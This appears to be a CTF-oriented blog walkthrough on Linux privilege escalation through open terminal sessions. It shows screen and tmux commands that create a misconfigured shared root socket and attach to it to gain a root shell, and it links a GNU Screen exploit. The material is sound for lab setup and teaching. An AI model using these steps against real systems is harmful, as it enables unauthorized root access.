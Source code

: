 ```yaml
---
title: Linux Privilege Escalation - Open Shell Sessions for CTF Creators
draft: false
author: "pwnlog"
authorLink: ""
description: ""
license: ""
images: []
date: 2021-12-28 11:33:00 +0800
categories: [Linux Privilege Escalation]
tags: [privilege escalation, shared object injection, defend]

hiddenFromHomePage: false
hiddenFromSearch: false
twemoji: false
lightgallery: true
ruby: true
fraction: true
fontawesome: true
linkToMarkdown: false
rssFullText: false

code:
  copy: true
  maxShownLines: -1
  # ...
math:
  enable: true
  # ...
mapbox:
  accessToken: ""
  # ...
share:
  enable: true
  # ...
comment:
  enable: true
  # ...
library:
  css:
    # someCSS = "some.css"
    # located in "assets/"
    # Or
    # someCSS = "https://cdn.example.com/some.css"
  js:
    # someJS = "some.js"
    # located in "assets/"
    # Or
    # someJS = "https://cdn.example.com/some.js"
seo:
  images: []
  # ...

summary: "Any root sessions active?"
---
```


# Open Shell Sessions

A terminal session represents an interaction with a terminal for software or an operating system. In UNIX systems, these sessions are stored as socket files and character files. If a terminal session has read, write, and execute permissions, it is possible to attach to the session. Programs such as GNU screen and tmux facilitate the management of terminal sessions and are known as terminal multiplexers.


# Privilege Escalation via Screen

List the screen sessions directory recursively: 

```shell
ls -lR /var/run/screen 2>/dev/null
```

Change the group of the directory to your group recursively:

```shell
sudo chgrp user -R /var/run/screen/S-root/
```

Add read, write, and execute permissions to your group recursively:

```shell
sudo chmod g+rwx -R /var/run/screen/S-root/
```

As we can see below the GNU screen program is aware of this misconfiguration so it doesn't let we create this privilege escalation attack vector:

```shell
user@pwn:~$ sudo screen -ls
Directory /run/screen/S-root must have mode 700.
```

Change the permissions to the one that it must have:

```shell
user@pwn:~$ sudo chmod 700 -R /var/run/screen/S-root/
user@pwn:~$ sudo screen -ls
There is a screen on:
	6848.pts-0.ubuntu	(12/04/2021 04:55:50 PM)	(Attached)
1 Socket in /run/screen/S-root.
```

If we try to add read, write, and execute permissions to the session file:

```shell
user@pwn:~$ sudo chmod 770 /var/run/screen/S-root/6848.pts-0.ubuntu
user@pwn:~$ sudo ls -la /var/run/screen/S-root/
total 0
drwx------ 2 root user  60 Dec 04 15:53 .
drwxrwxrwt 4 root utmp 80 Dec 04 15:53 ..
srwxrwx--- 1 root user   0 Dec 04 15:53 6848.pts-0.ubuntu
```

We can see that the file is not found:

```shell
user@pwn:~$ screen -dr 6848.pts-0.ubuntu
There is no screen to be detached matching 6848.pts-0.ubuntu.
user@pwn:~$ sudo screen -dr 6848.pts-0.ubuntu
There is a screen on:
	6848.pts-0.ubuntu	(12/04/2021 04:55:50 PM)	(Unknown)
There is no screen to be detached matching 6848.pts-0.ubuntu.
```

The only way as of this year (2021) to escalate privileges with `GNU Screen` is by using an old version or vulnerable version like [GNU Screen 4.5.0 - Local Privilege Escalation](https://www.exploit-db.com/exploits/41154).

# Privilege Escalation via Tmux

Let's create a scenario where the current session is misconfigured, startup by creating a shared session, this is done by creating a socket file:

```shell
sudo tmux -S /shared new -s session
```

Then create a new terminal window or tab and change the group of the shared socket file to a group that we belong:

```shell
sudo chown root:user /shared
```

If we can compromise a user in the `user` group, we can attach to this session and gain root access. Since the owner of the socket file is root and the user we compromised is in the group `user`:

```shell
user@pwn:~$ ls -l /shared 
srwxrwx--- 1 root user 0 Dec 27 16:42 /shared
```

Review our group membership with the `id` command or the `groups` commands, I'm going to execute both commands:

```shell
user@pwn:~$ id && echo '' && groups
uid=1000(user) gid=1000(user) groups=1000(user),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),120(lpadmin),132(lxd),133(sambashare)

user adm cdrom sudo dip plugdev lpadmin lxd sambashare
```

As we can see above, we're in the `user` group and the `user` group has read, write, and execute permission in the shared socket session file. Because of this misconfiguration, we can attach to the `tmux` session.

```shell
user@pwn:~$ tmux -S /shared
```

Confirm the root privileges with `id` command to see the `uid` or we can use the `whoami` command to print the `euid`. The important thing here is that either or both the `uid` or the `euid` is `0` (root):

```shell
root@pwn:/home/user# id
uid=0(root) gid=0(root) groups=0(root)
root@pwn:/home/user# whoami
root
root@pwn:/home/user# 
```

In old versions of `tmux`, we could attach to any session so if you're in a system with an old tmux version running it is worth a try to attach to that session.